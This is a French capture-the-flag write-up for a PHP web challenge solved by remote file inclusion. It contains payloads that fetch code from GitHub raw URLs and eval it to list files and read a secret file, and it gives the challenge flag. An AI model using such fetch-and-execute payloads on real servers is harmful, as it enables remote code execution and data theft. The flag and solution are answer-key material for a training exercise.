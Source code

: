 # Titre : WebHacker-RFI-01

# Catégorie : WEB

## Équipe : WEB

## Personnes : Christophe G-A, Marius V

## Description - Énoncé :

La légende raconte qu'un espace de type sandbox serait présent. Mais le vil admin à changé la politique de messages et maintant filtre d'avantage les messages. n'hésitez pass à demander de l'aide à votre propre compagnion 'GitHub' !!

# Solution :

On arrive sur une page permettant d’afficher des messages mais en réalité elle permet l'exécution de code php notamment (bloque les balises script et l'exécution de commandes serveur)
ici l’objectif est de liste les fichiers du dossier courant et d’afficher le contenu de superpassword.secured et ce avec des commandes php, mais contrairement au challenge 6 on ne peut pas utiliser la command scandir() ou afficher le nom du fichier contenant le flag il faut donc utiliser une attaque par RFI , on peut donc rentrer ces commandes :

<?php if (($code = file_get_contents('https://raw.githubusercontent.com/suirham/corporation/main/folderscan')) !== false) eval($code); ?>
puis
<?php if (($code = file_get_contents('https://raw.githubusercontent.com/suirham/corporation/main/affichercontenu')) !== false) eval($code); ?>

## ces commandes sont issue de deux pages github :

## scandir : url : https://raw.githubusercontent.com/suirham/corporation/main/folderscan contenu : echo join("\\n", array_diff(scandir('.'), ['.', '..']));

## file get contents : url : https://raw.githubusercontent.com/suirham/corporation/main/affichercontenu contenu : echo file_get_contents("superpassword.secured");

ou alors on peut faire son propre espace en ligne pour aller chercher du code

# URL de connexion : ...../vr06/

# flag : OmgUrSoGood

# Docker (Merci de commenter votre Dockerfile):

- [x] oui :
  - Explication du fonctionnement du docker : "docker-compose"
- [ ] non